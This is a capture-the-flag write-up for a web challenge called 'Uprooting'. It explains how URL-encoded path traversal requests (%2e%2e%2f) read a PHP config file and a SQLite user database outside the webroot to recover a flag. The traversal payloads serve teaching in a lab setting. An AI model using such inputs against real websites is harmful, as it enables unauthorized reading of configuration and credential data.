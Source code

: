 **Name**: Uprooting  
**Points**: 600  
**Instructions**: There is a website running at http://challenges.runesec.com:53945. Misconfigurations sometimes kill the cats  
**Hint**: Some things are just relative...  

## Exploration
- From the name of this challenge and the given hint, we can guess that the website provided is vulnerable to [path traversal](https://www.owasp.org/index.php/Path_Traversal) attacks.  
- We are given a login interface (Username & Password.) We attempt to login, and as expected, we can't go through, but we get the following message from `/login.php`:  
> Cannot access php config file  

- Based on the instructions for this challenge, and the message we get when we attempt to login, we should start by looking for a PHP configuration file.

## Exploitation
The default configuration file for PHP is named `php.ini`. We can try finding it using relative path traversals.  
- 1st attempt: `/php.ini`  
- 2nd attempt: `/../php.ini`  

*(Maybe we should URL encode `../` to `%2e%2e%2f`)*  

- 3rd attempt: `/%2e%2e%2fphp.ini`  

*(Bingo!)*  

The file has the following content:  
`database_file = "users.db";`  

No we can try find `users.db`.  

`/%2e%2e%2fusers.db` works and we get the following:  
`SQLite format 3@ -� ��@atableusersusersCREATE TABLE users (id integer, flag text) ��R	�)0x666c61677b31303465636536666138373164336365663963303865363939623133656338397d`  

We grab that hex string at the end and convert it to UTF8 to get the flag.

## Notes
We were lucky `php.ini` was only 1 level up from the directory `index.html` resides; the relative path could've been more complicated.  

The directory structure on the server was - more or less - the following:   
```
.  
├── webroot  
│   ├── index.html <- *we start from here*  
│   └── login.php  
├── php.ini        <- *we can get here with `../`*  
└── users.db
```
